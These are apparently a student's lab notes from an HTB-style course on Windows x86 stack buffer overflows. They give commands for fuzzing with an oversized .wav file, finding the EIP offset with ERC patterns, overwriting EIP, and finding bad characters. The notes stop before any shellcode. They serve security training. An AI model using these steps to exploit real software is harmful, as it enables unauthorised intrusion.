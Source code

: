 # buffer overflow Windows x86

## Take control EIP

- Get rough estimate offset
```shell
python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"
```

- Create pattern
```shell
ERC --pattern c 5000
```

- Calculate exact offset
```shell
ERC --pattern o 1hF0
```

- Verify offset by overwriting EIP
```shell
$(python2 -c "print('A' * 1000 + 'B' * 4)")
```

## Identify bad chars

- Generate chars string

```shell
ERC --bytearray -bytes 0x00
```

- Compare characters from array to character in memory region, using the value of the ESP

```shell
ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin
```

